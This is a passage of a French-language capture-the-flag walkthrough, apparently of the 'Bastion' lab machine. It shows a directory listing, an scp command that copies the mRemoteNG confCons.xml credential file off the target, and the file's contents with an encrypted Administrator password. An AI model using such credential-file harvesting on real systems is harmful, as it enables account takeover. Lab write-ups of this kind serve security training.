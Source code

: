 ```bash
22-02-2019  14:03                51 extApps.xml
22-02-2019  14:03             5.217 mRemoteNG.log
22-02-2019  14:03             2.245 pnlLayout.xml
22-02-2019  14:01    <DIR>          Themes
              14 File(s)         76.577 bytes
               3 Dir(s)  11.303.444.480 bytes free

l4mpje@BASTION C:\Users\L4mpje\AppData\Roaming\mRemoteNG>

```

On récupère le fichier avec **scp** :

```bash
┌─[✗]─[root@kali]─[~/bastion]
└──╼ #scp l4mpje@10.10.10.134:/Users/L4mpje/AppData/Roaming/mRemoteNG/confCons.xml .
l4mpje@10.10.10.134's password:
confCons.xml                                  100% 6316    74.3KB/s   00:00
┌─[root@kali]─[~/bastion]
└──╼ #file confCons.xml
confCons.xml: XML 1.0 document, ASCII text, with very long lines, with CRLF line
 terminators
```

```markup
<?xml version="1.0" encoding="utf-8"?>
<mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="ZSvKI7j224Gf/twXpaP5G2QFZMLr1iO1f5JKdtIKL6eUg+eWkL5tKO886au0ofFPW0oop8R8ddXKAx4KK7sAk6AA" ConfVersion="2.6">
    <Node Name="DC" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="500e7d58-662a-44d4-aff0-3a4f547a3fee" Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==" Hostname="127.0.0.1" Protocol="RDP" PuttySession="Default Settings" Port="3389" ConnectToConsole="false" UseCredSsp="true" RenderingEngine="IE" ICAEncryptionStrength="EncrBasic" RDPAuthenticationLevel="NoAuth" RDPMinutesToIdleTimeout="0" RDPAlertIdleTimeout="false" LoadBalanceInfo="" Colors="Colors16Bit" Resolution="FitToWindow" AutomaticResize="true" DisplayWallpaper="false" DisplayThemes="false" EnableFontSmoothing="false" EnableDesktopComposition="false" CacheBitmaps="false" RedirectDiskDrives="false" RedirectPorts="false" RedirectPrinters="false" RedirectSmartCards="false" RedirectSound="DoNotPlay" SoundQuality="Dynamic" RedirectKeys="false" Connected="false" PreExtApp="" PostExtApp="" MacAddress="" UserField="" ExtApp="" VNCCompression="CompNone" VNCEncoding="EncHextile" VNCAuthMode="AuthVNC" VNCProxyType="ProxyNone" VNCProxyIP="" VNCProxyPort="0" VNCProxyUsername="" VNCProxyPassword="" VNCColors="ColNormal" VNCSmartSizeMode="SmartSAspect" VNCViewOnly="false" RDGatewayUsageMethod="Never" RDGatewayHostname="" RDGatewayUseConnectionCredentials="Yes" RDGatewayUsername="" RDGatewayPassword="" RDGatewayDomain="" InheritCacheBitmaps="false" InheritColors="false" InheritDescription="false" InheritDisplayThemes="false" InheritDisplayWallpaper="false" InheritEnableFontSmoothing="false" InheritEnableDesktopComposition="false" InheritDomain="false" InheritIcon="false" InheritPanel="false" InheritPassword="false" InheritPort="false" InheritProtocol="false" InheritPuttySession="false" InheritRedirectDiskDrives="false" InheritRedirectKeys="false" InheritRedirectPorts="false" InheritRedirectPrinters="false" InheritRedirectSmartCards="false" InheritRedirectSound="false" InheritSoundQuality="false" InheritResolution="false" InheritAutomaticResize="false" InheritUseConsoleSession="false" InheritUseCredSsp="false" InheritRenderingEngine="false" InheritUsername="false" InheritICAEncryptionStrength="false" InheritRDPAuthenticationLevel="false" InheritRDPMinutesToIdleTimeout="false" InheritRDPAlertIdleTimeout="false" InheritLoadBalanceInfo="false" InheritPreExtApp="false" InheritPostExtApp="false" InheritMacAddress="false" InheritUserField="false" InheritExtApp="false" InheritVNCCompression="false" InheritVNCEncoding="false" InheritVNCAuthMode="false" InheritVNCProxyType="false" InheritVNCProxyIP="false" InheritVNCProxyPort="false" InheritVNCProxyUsername="false" InheritVNCProxyPassword="false" InheritVNCColors="false" InheritVNCSmartSizeMode="false" InheritVNCViewOnly="false" InheritRDGatewayUsageMethod="false" InheritRDGatewayHostname="false" InheritRDGatewayUseConnectionCredentials="false" InheritRDGatewayUsername="false" InheritRDGatewayPassword="false" InheritRDGatewayDomain="false" />
```